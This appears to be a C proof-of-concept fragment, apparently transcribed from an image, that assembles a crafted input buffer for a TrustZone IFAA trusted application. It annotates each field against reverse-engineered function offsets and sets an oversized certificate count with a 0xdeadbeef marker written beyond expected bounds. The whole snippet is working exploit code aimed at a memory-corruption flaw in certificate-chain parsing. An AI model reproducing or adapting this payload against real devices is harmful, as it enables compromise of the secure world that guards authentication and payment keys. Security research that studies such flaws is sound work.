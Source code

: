 ```c

    char * payload = malloc(0x1000);
    memset(payload,0,0x1000);

    /* --------------------------------  sub_801EB58: mp_handler  ---------------------------------  */

    *(int *) payload = 1;                   // 0x801EB94: if ( *buffer != 1 )
    *(int *)(payload + 4) = 0x1000;         // 0x801EBEC: v11 != 0x1000

    /* --------------------------------  sub_80203D4: process_ifaa_cmd  ---------------------------  */

    *(int *)(payload + 8)   = 0x200;        // 0x80203F4: v109 = *(_DWORD *)(input + 8); size total
    *(int *)(payload + 0xc) = 0;            // size total padding

    // sig_len; signature
    *(int *)(payload + 0x10) = 4;           // 0x801F198: size_data = read32(*data): size data
    *(int *)(payload + 0x14) = 1;           // 0x8020458: EXTRACT_DATA((__int64)v72, &v68, &v69); v72

    // pkg_len; pkg_name
    *(int *)(payload + 0x18) = 4;           // 0x801F198: size_data = read32(*data): size data
    *(int *)(payload + 0x1C) = 1;           // 0x8020470: EXTRACT_DATA((__int64)v73, &v68, &v69); v73

    // command
    *(int *)(payload + 0x20) = 2;           // 0x8020484: v12 = read32(v69)
        
    // Param_len
    *(int *)(payload + 0x24)  = 0x100;      // 0x80205E0: v11 = EXTRACT_DATA((__int64)&v83, &v68, &v69);


    /* --------------------------------  sub_801FA5C: ifaa_tz_register  ---------------------------  */
    /* --------------------------------  sub_80243CC: parse_request     ---------------------------  */
    /* --------------------------------  sub_801F49C:                   ---------------------------  */
    /* --------------------------------  sub_801F27C: ifaa_in_validate_req_sig  -------------------  */

    // Params(TLV data)
    *(uint16_t *)(payload + 0x28) = 1;		// root_node
    *(uint16_t *)(payload + 0x2a) = 0xf0;	// size
    *(uint16_t *)(payload + 0x2c) = 2;		// node_regdata
    *(uint16_t *)(payload + 0x2e) = 0xe0;	// size
    *(uint16_t *)(payload + 0x30) = 0x8007;	// node_sig
    *(uint16_t *)(payload + 0x32) = 0x0;	// size
    *(uint16_t *)(payload + 0x34) = 0x8006;	// node_certchain
    *(uint16_t *)(payload + 0x36) = 0xd0;	// size
    *(int *)     (payload + 0x38) = 6;		// number of cert !!!
    *(int *)     (payload + 0x3c + 16*5) = 0xdeadbeef;	

    op.params[0].tmpref.buffer = payload;
    op.params[0].tmpref.size   = 0x1000;

    /* --------------------------------  sub_80203D4: process_ifaa_cmd  ---------------------------  */
    char * output = malloc(0x1000);
    *(int *)(output + 4) = 0x10;		// 0x80203F8: v6 = output[1]; if(v6 == 0) v8 = "Invalid param";
```